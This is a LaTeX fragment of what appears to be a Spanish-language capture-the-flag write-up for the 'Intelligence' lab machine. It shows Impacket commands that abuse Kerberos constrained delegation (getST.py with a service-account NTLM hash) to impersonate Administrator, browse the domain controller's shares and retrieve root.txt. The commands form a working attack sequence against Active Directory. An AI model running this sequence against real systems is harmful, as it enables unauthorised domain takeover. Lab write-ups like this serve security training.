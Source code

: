\documentclass[a4paper]{article}
\begin{document}
        \begin{lstlisting}[language=Bash, caption=Acceso como administrador]
$ getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int 
-hashes :ee6ba16bad56e4fd9cc2a4156710cd2d

Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

$ export 'KRB5CCNAME=Administrator.ccache'

$ impacket-smbclient Administrator@dc.intelligence.htb -k -no-pass 
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
Users
# use Users
# pwd
\
# ls
drw-rw-rw-          0  Mon Apr 19 08:20:26 2021 .
drw-rw-rw-          0  Mon Apr 19 08:20:26 2021 ..
drw-rw-rw-          0  Mon Apr 19 07:18:39 2021 Administrator
drw-rw-rw-          0  Mon Apr 19 10:16:30 2021 All Users
drw-rw-rw-          0  Mon Apr 19 09:17:40 2021 Default
drw-rw-rw-          0  Mon Apr 19 10:16:30 2021 Default User
-rw-rw-rw-        174  Mon Apr 19 10:15:17 2021 desktop.ini
drw-rw-rw-          0  Mon Apr 19 07:18:39 2021 Public
drw-rw-rw-          0  Mon Apr 19 08:20:26 2021 Ted.Graves
drw-rw-rw-          0  Mon Apr 19 07:51:46 2021 Tiffany.Molina
# cd Administrator
# cd Desktop
# ls
drw-rw-rw-          0  Mon Apr 19 07:51:57 2021 .
drw-rw-rw-          0  Mon Apr 19 07:51:57 2021 ..
-rw-rw-rw-        282  Mon Apr 19 07:40:10 2021 desktop.ini
-rw-rw-rw-         34  Tue Jun  7 08:19:54 2022 root.txt
# get root.txt
# exit\end{lstlisting}
                                                                                                                                                                       
        \begin{lstlisting}[language=Bash, caption=Flag root.txt]
$ cat root.txt  \end{lstlisting} 
\end{document}
